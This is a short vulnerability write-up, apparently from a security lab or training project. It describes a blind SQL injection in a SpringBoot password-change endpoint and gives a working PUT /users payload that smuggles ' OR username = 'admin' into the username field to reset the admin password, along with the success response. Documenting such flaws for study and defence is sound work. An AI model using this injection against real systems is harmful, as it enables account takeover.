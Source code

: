 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"ding' OR username = 'admin",
        "newPassword":"password10!"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation



    